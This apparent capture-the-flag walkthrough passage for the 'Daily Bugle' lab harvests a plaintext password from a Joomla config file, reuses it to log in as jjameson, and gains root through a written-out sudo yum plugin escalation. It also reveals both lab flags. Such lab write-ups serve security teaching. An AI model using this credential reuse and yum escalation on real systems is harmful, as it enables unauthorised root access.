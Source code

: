 ```
        public $feed_email = 'none';
        public $log_path = '/var/www/html/administrator/logs';
        public $tmp_path = '/var/www/html/tmp';
        public $lifetime = '15';
        public $session_handler = 'database';
        public $shared_session = '0';
}sh-4.2$
```
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';

Tied for root, but shows authentication failure!
Lets try with jjameson

Login successful

`jjameson:nv5uz9r3ZEDzVjNu`



> What is the user flag?

`27a260fe3cba712cfdedb1c86d80442e`

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cd /tmp
[jjameson@dailybugle tmp]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2#

```

> What is the root flag?

`eec3d53292b1821868266858d7fa6f79`